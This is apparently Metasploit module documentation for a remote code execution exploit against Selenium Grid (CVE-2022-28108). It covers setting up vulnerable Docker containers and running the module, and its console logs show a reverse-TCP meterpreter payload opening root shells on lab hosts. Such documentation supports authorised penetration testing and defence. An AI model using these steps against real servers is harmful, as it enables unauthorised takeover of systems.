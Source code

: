 ## Vulnerable Application

Selenium Server (Grid) before 4.0.0-alpha-7 allows CSRF because it permits non-JSON content types
such as application/x-www-form-urlencoded, multipart/form-data, and text/plain.

The vulnerability affects:

    * Selenium Server (Grid) before 4.0.0-alpha-7

This module was successfully tested on:

    * selenium/standalone-chrome:3.141.59 installed with Docker on Ubuntu 24.04
    * selenium/standalone-chrome:4.0.0-alpha-6-20200730 installed with Docker on Ubuntu 24.04


### Installation

1. `docker pull selenium/standalone-chrome:3.141.59`

2. `docker run -d -p 4444:4444 -p 7900:7900 --shm-size="2g" selenium/standalone-chrome:3.141.59`


## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/linux/http/selenium_greed_chrome_rce_cve_2022_28108`
4. Do: `run lhost=<lhost> rhost=<rhost>`
5. You should get a meterpreter


## Options


## Scenarios
### selenium/standalone-chrome:3.141.59 installed with Docker on Ubuntu 24.04
```
msf > use exploit/linux/http/selenium_greed_chrome_rce_cve_2022_28108
[*] Using configured payload cmd/linux/http/x64/meterpreter_reverse_tcp
msf exploit(linux/http/selenium_greed_chrome_rce_cve_2022_28108) > options

Module options (exploit/linux/http/selenium_greed_chrome_rce_cve_2022_28108):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    4444             yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter_reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       WGET             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        true             yes       Attempt to delete the binary after execution
   FETCH_FILENAME      OmbNmrIU         no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR                   yes       Remote writable dir to store payload; cannot contain spaces
   LHOST                                yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux Command



View the full module info with the info, or info -d command.

msf exploit(linux/http/selenium_greed_chrome_rce_cve_2022_28108) > run lhost=192.168.56.1 rhost=192.168.56.16 rport=4444
[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version 3.141.59 detected, which is vulnerable.
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.16:40990) at 2024-12-30 13:33:31 +0900

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 172.17.0.5
OS           : Ubuntu 20.04 (Linux 6.8.0-51-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```

### selenium/standalone-chrome:4.0.0-alpha-6-20200730 installed with Docker on Ubuntu 24.04
```
msf exploit(linux/http/selenium_greed_chrome_rce_cve_2022_28108) > run lhost=192.168.56.1 rhost=192.168.56.16 rport=4447
[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated. Selenium Grid version 4.x detected.
[*] Meterpreter session 2 opened (192.168.56.1:4444 -> 192.168.56.16:34888) at 2024-12-30 13:34:30 +0900

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 172.17.0.6
OS           : Ubuntu 18.04 (Linux 6.8.0-51-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```
